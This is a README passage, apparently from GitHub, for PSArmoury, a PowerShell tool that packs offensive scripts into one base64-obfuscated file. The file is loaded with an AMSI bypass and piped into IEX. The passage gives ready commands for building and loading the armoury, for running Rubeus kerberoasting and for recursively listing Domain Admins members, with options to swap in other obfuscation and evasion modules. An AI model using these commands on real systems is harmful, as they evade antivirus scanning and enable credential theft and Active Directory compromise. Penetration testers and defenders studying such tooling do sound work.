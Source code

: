 If you want to create an armoury with default settings (note: this will not obfuscate at all besides base64 encoding), then just run the following.

``` powershell
. .\New-PSArmoury.ps1
New-PSArmoury
```
This will create a .ps1 file called "MyArmoury.ps1" in the current working directory using
- the default config ".\PSArmoury.json"
- the default AMSI bypass found at ".\modules\evasion.ps1"
- the default obfuscation/deobfuscation (base64) found at ".\modules\obfuscation.ps1" and ".\modules\deobfuscation.ps1" respectively.

You can load the armoury into your current session by using

``` powershell
cat -raw .\MyArmoury.ps1 | iex
```

Loading your armoury invokes the following steps:
* Invoke evasion code
* Hand over control to the deobfuscation function which in turn should
* Go over every obfuscated item and 
    * deobfuscate
    * pipe into IEX

After that, all powershell code you put in the armoury will be available. Just invoke the cmdlets as usual like this

``` powershell
Invoke-Rubeus -Command "kerberoast /stats"
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

If it happens that you don't remember what you put inside the armoury, just load it and call the inventory :-)

``` powershell
Get-PSArmoury
```

### Example 2 - Use the byte-convert/json-format obfuscation technique that comes with PSArmoury and different config file

Start New-PSArmoury with the `-EvasionPath` and `-ObfuscationPath` Parameters like this:

``` powershell
New-PSArmoury -Config C:\myarmouryconfig.json -ObfuscationPath .\modules\TEMPLATE_obfuscation_byte_convert.ps1 -EvasionPath .\modules\evasion.ps1
```

### Example 3 - Create an armoury from a local folder containing powershell scripts

Note: in this case, all .ps1 files in the folder will be added since we submit a folder path. If we submit the path to a single file, then only that file we be processed.

``` powershell
New-PSArmoury -FromFile C:\myscriptfolder
```
